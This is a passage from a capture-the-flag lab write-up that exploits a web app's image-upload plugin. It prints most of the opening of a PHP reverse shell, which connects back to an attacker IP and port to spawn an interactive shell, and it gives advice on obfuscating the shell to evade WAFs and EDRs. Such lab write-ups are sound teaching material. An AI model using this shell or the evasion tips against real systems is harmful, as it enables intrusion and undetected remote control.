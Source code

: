 After uploading the `shell.php` file under the "My Image" plugin page, I was unable to catch the shell.

We could use Metasploit to automate the exploit, but exploiting it manually is a better learning exercise.

Next, we try another reverse shell code using [revshells](https://www.revshells.com/){:target="_blank"}.


> ***Note:***
> 
> Make sure to use your own IP and listener port


![](https://jawad.ca/images/nibbles7.png)

> ***Note:***
> 
> In a real engagement, make sure to remove shell comments and obfuscate the code; otherwise, it's easy for WAFs and EDRs to detect and block the shell.


```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.91';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonize.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
```